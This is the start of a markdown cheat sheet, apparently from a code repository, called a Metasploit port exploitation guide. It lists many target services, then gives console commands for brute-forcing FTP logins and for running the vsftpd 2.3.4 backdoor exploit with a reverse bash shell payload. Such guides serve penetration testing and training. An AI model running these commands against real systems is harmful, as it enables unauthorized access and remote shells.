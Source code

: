 # Complete Metasploit Port Exploitation Guide

## Table of Contents
- [Port 21 - FTP](#port-21---ftp)
- [Port 22 - SSH](#port-22---ssh)
- [Port 23 - Telnet](#port-23---telnet)
- [Port 25/465/587 - SMTP](#port-25465587---smtp)
- [Port 53 - DNS](#port-53---dns)
- [Port 139/445 - SMB](#port-139445---smb)
- [Port 443 - HTTPS](#port-443---https)
- [Port 631 - CUPS](#port-631---cups)
- [Port 3389 - RDP](#port-3389---rdp)
- [Port 3500, 3700 - Oracle TNS](#port-3500-3700---oracle-tns)
- [Port 3820, 3825 - DNP3 (SCADA)](#port-3820-3825---dnp3-scada)
- [Port 4848 - Oracle GlassFish](#port-4848---oracle-glassfish)
- [Port 5985, 5986 - WinRM](#port-5985-5986---winrm)
- [Port 7676 - Oracle BI Publisher](#port-7676---oracle-bi-publisher)
- [Port 8009 - AJP](#port-8009---ajp)
- [Port 8020, 8027, 8067 - Hadoop](#port-8020-8027-8067---hadoop)
- [Port 8080 - HTTP Alternate](#port-8080---http-alternate)
- [Port 8181, 8282, 8383, 8484, 8585, 8686 - Various HTTP Services](#port-8181-8282-8383-8484-8585-8686---various-http-services)
- [Port 9200, 9300 - Elasticsearch](#port-9200-9300---elasticsearch)
- [High Number Ports](#high-number-ports)
- [Additional Resources](#additional-resources)

---

## Port 21 - FTP
**Service**: File Transfer Protocol  
**Common services**: vsftpd, ProFTPD, FileZilla, Pure-FTPd

### Auxiliary: FTP Login Scanner
```bash
use auxiliary/scanner/ftp/ftp_login
set RHOSTS [IP]
set USERPASS_FILE /path/to/wordlist.txt
set VERBOSE true
```
**Purpose**: Bruteforces username and password logins.

### Exploit: vsftpd Backdoor
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST [IP]
set PAYLOAD cmd/unix/reverse_bash
```
**Purpose**: Exploits a backdoor in vsftpd version 2.3.4.
